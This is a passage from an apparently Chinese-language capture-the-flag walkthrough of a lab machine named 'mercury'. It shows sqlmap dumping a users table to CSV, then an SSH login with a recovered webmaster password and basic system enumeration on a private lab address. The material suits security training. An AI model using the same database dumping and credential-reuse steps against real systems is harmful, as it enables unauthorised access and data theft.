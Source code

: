   [20:49:14] [INFO] table 'mercury.users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.56.102/dump/mercury/users.csv'                                                                                                     
  [20:49:14] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.102'
  
  [*] ending @ 20:49:14 /2023-08-19/
  ```

## 获得初始shell

- 经过测试，发现webmaster可以ssh登录到系统：`webmaster:mercuryisthesizeof0.056Earths`

- 获取第一个flag

- ```shell
  └─$ ssh webmaster@192.168.56.102
  webmaster@192.168.56.102's password: 
  Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-45-generic x86_64)
  
   * Documentation:  https://help.ubuntu.com
   * Management:     https://landscape.canonical.com
   * Support:        https://ubuntu.com/advantage
  
    System information as of Sun 20 Aug 05:07:00 UTC 2023
  
    System load:  0.0               Processes:               105
    Usage of /:   76.8% of 4.86GB   Users logged in:         0
    Memory usage: 32%               IPv4 address for enp0s3: 192.168.56.102
    Swap usage:   0%
  
  
  22 updates can be installed immediately.
  0 of these updates are security updates.
  To see these additional updates run: apt list --upgradable
  
  
  The list of available updates is more than a week old.
  To check for new updates run: sudo apt update
  Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
  
  
  Last login: Sun Aug 20 00:49:44 2023 from 192.168.56.101
  webmaster@mercury:~$ ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
      link/ether 08:00:27:1e:20:e4 brd ff:ff:ff:ff:ff:ff
      inet 192.168.56.102/24 brd 192.168.56.255 scope global dynamic enp0s3
         valid_lft 438sec preferred_lft 438sec
      inet6 fe80::a00:27ff:fe1e:20e4/64 scope link 
         valid_lft forever preferred_lft forever
  webmaster@mercury:~$ uname -a
  Linux mercury 5.4.0-45-generic #49-Ubuntu SMP Wed Aug 26 13:38:52 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
  webmaster@mercury:~$ id
  uid=1001(webmaster) gid=1001(webmaster) groups=1001(webmaster)
  webmaster@mercury:~$ whoami
  webmaster
  ```
